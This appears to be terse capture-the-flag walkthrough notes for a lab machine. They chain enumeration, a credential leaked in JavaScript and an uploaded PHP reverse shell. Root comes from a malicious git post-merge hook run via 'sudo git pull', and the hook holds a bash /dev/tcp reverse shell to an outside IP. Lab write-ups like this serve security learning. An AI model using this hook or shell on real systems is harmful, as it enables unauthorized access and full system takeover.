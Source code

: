 <h1>Method1</h1>

                                                        USER
                                                        
                                                        
   Enumerate -> /bookmarks.html -> Creds in Javascript -> clave:11des0081x -> Enumerate -> sudo git pull used (Remember it) -> Upload reverese shell -> Visit /profiles/filename.php -> Rev shell
   
   
                                                        ROOT
                                                        
                                                        
   sudo -l -> git pull used -> Read:https://www.liquidlight.co.uk/blog/using-a-post-merge-git-hook-to-clean-up-old-branches/ -> copy .git to /tmp/Dir1 -> create file in .git/hooks/post-merge with rev shell -> perform sudo git pull
   
   post-merge
   ```
   #!/bin/bash
   /bin/bash -i >& /dev/tcp/10.10.16.57/1234 1>&2
   ```
